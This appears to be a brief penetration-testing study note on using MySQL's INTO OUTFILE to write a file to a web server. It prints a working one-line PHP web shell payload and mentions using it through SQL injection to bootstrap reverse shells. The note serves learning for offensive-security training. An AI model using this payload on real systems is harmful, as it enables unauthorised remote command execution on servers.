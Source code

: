 # Exploiting MySQL

author:: Nathan Acks  
date:: 2022-08-03

You can “upload” reverse shells using MySQL using `INTO OUTFILE`:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';
```

The path may require some brute-forcing or additional reconnaissance; sometimes you can force an error to return a (potentially) writeable path. Depending on how the application you’re attacking is configured, it may be possible to exploit this via SQLi.

This can be used to bootstrap reverse shells.

## References

* [2022-08-03 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-03-offsec-live-pen-200-and-aws-deep-dive.md)
* [SQL Injection](sql-injection.md)
